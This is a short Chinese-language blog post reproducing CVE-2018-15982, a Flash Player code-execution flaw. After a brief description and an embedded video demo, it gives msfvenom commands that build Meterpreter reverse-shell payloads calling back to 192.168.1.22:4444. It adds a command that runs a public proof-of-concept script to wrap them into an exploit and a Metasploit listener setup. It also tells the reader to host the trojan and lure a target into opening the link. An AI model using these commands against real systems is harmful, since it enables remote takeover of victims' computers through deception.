 ```yaml
---
title: CVE-2018-15982 Adobe Flash Player 漏洞复现
tags: 
- CVE
- 漏洞
categories:
- 技术分享
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020/3/26 23:00:00
---
```


# 漏洞介绍
Adobe已发布适用于Windows，macOS，Linux和Chrome OS的Adobe Flash Player安全更新。这些更新解决一个关键的Adobe Flash Player的漏洞和一个重要的Adobe Flash Player的安装程序的漏洞。成功利用可能导致当前用户的上下文中的任意代码执行和权限提升。

# 漏洞演示

<iframe height="470" width="800" src="//player.bilibili.com/player.html?aid=370087987&bvid=BV1zZ4y1j7FS&cid=173934092&page=1" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>

# 木马制作

Poc: <https://github.com/yangb92/CVE-2018-15982_EXP>
```
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.22 LPORT=4444 -f raw>86.bin 
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.22 LPORT=4444 -f raw>64.bin
python CVE_2018_15982.py -i 86.bin -I 64.bin
```
将木马文件托管在http服务器上面, 将链接分享给目标,诱导目标打开.

# MSF监听
```
msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp_rc4
set LHOST 192.168.1.22
exploit
```
